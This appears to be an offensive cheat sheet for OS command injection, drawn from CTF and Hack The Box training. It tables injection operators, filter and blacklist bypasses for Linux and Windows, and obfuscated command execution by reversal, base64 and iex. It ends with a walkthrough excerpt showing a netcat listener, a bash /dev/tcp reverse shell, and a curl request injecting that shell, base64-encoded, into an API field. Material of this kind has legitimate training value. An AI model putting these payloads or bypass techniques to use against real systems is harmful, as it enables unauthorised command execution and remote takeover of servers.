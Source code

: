 ## Injection Operators

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | `;`                     | `%3b`                     | Both                                       |
| New Line               | `\n`                    | `%0a`                     | Both                                       |
| Background             | `&`                     | `%26`                     | Both (second output generally shown first) |
| Pipe                   | \|                      | `%7c`                     | Both (only second output is shown)         |
| AND                    | `&&`                    | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | \|\|                    | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ` `` `                  | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Both (Linux-only)                          |

---

# Linux

## Filtered Character Bypass

| Code                    | Description                                                                        |
| ----------------------- | ---------------------------------------------------------------------------------- |
| `printenv`              | Can be used to view all environment variables                                      |
| **Spaces**              |                                                                                    |
| `%09`                   | Using tabs instead of spaces                                                       |
| `${IFS}`                | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. `$()`) |
| `{ls,-la}`              | Commas will be replaced with spaces                                                |
| **Other Characters**    |                                                                                    |
| `${PATH:0:1}`           | Will be replaced with `/`                                                          |
| `${LS_COLORS:10:1}`     | Will be replaced with `;`                                                          |
| `$(tr '!-}' '"-~'<<<[)` | Shift character by one (`[` -> `\`)                                                |
|                         |                                                                                    |

---

## Blacklisted Command Bypass

| Code                                                                                             | Description                         |
| ------------------------------------------------------------------------------------------------ | ----------------------------------- |
| **Character Insertion**                                                                          |                                     |
| `'` or `"`                                                                                       | Total must be even                  |
| `$@` or `\`                                                                                      | Linux only                          |
| **Case Manipulation**                                                                            |                                     |
| `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`                                                               | Execute command regardless of cases |
| `$(a="WhOaMi";printf %s "${a,,}")`                                                               | Another variation of the technique  |
| **Reversed Commands**                                                                            |                                     |
| `echo 'whoami' \| rev`                                                                           | Reverse a string                    |
| `$(rev<<<'imaohw')`                                                                              | Execute reversed command            |
| **Encoded Commands**                                                                             |                                     |
| `echo -n 'cat /etc/passwd \| grep 33' \| base64`                                                 | Encode a string with base64         |
| `bash<<<$(base64 -d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)` | Execute b64 encoded string          |

---

# Windows

## Filtered Character Bypass

|Code|Description|
|---|---|
|`Get-ChildItem Env:`|Can be used to view all environment variables - (PowerShell)|
|**Spaces**||
|`%09`|Using tabs instead of spaces|
|`%PROGRAMFILES:~10,-5%`|Will be replaced with a space - (CMD)|
|`$env:PROGRAMFILES[10]`|Will be replaced with a space - (PowerShell)|
|**Other Characters**||
|`%HOMEPATH:~0,-17%`|Will be replaced with `\` - (CMD)|
|`$env:HOMEPATH[0]`|Will be replaced with `\` - (PowerShell)|

---

## Blacklisted Command Bypass

| Code                                                                                                         | Description                              |
| ------------------------------------------------------------------------------------------------------------ | ---------------------------------------- |
| **Character Insertion**                                                                                      |                                          |
| `'` or `"` for example w"h"o"a"m"i                                                                           | Total must be even                       |
| `^`<br>                                                                                                      | Windows only (CMD)                       |
| **Case Manipulation**                                                                                        |                                          |
| `WhoAmi`                                                                                                     | Simply send the character with odd cases |
| **Reversed Commands**                                                                                        |                                          |
| `"whoami"[-1..-20] -join ''`                                                                                 | Reverse a string                         |
| `iex "$('imaohw'[-1..-20] -join '')"`                                                                        | Execute reversed command                 |
| **Encoded Commands**                                                                                         |                                          |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`                              | Encode a string with base64              |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string               |
### Linux Only
```bash
who$@ami
w\ho\am\i
```

### Windows Only
```cmd-session
C:\htb> who^ami

21y4d
```

> [!Tips]
> 
> It is always easier to inject our command in an input going at the end of the command, rather than in the middle of it, though both are possible
> 
> For example, the backend command runs as: "mv FROM TO". the param of the vuln is to=val&from=val.
> 
> It is easier to perform injection in the to param cause it happens later in the linux command


# From 2 Million
The command is successful and we gain command execution. Let's start a Netcat listener to catch a shell. 

```
nc -lvp 1234 
```

We can then get a shell with the following payload. 

```
bash -i >& /dev/tcp/10.10.14.4/1234 0>&1 
```

We encode the payload in Base64 and add it to the following command. 

```
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data '{"username":"test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzEyMzQgMD4mMQo= | base64 -d | bash;"}'
```